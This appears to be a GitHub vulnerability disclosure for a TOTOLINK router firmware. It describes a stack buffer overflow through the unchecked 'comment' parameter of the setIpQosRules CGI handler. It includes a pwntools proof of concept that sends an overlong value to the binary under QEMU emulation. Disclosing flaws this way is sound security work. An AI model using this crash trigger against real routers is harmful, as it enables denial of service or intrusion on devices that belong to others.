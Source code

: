 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=2
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Affected version

V4.3.0cu.7647_B20210106

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_004192cc` (at address 0x04192cc) gets the JSON parameter `comment`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow:  

<img src="img/1.png" alt="1.png" style="zoom:50%;" />

## POC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setIpQosRules",
    "ipStart": "192.168.2.2",
    "ipEnd": "192.168.2.2",
    "upBandwidth": "2",
    "dwBandwidth": "1",
    "comment": "A"*0x200,
}
data = json.dumps(data)
print(data)

argv = [
    "qemu-mips-static",
    "-g", "1234",
    "-L", "./lib",
    "-E", "LD_PRELOAD=./hook.so",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)

a.sendline(data.encode())

a.interactive()
```


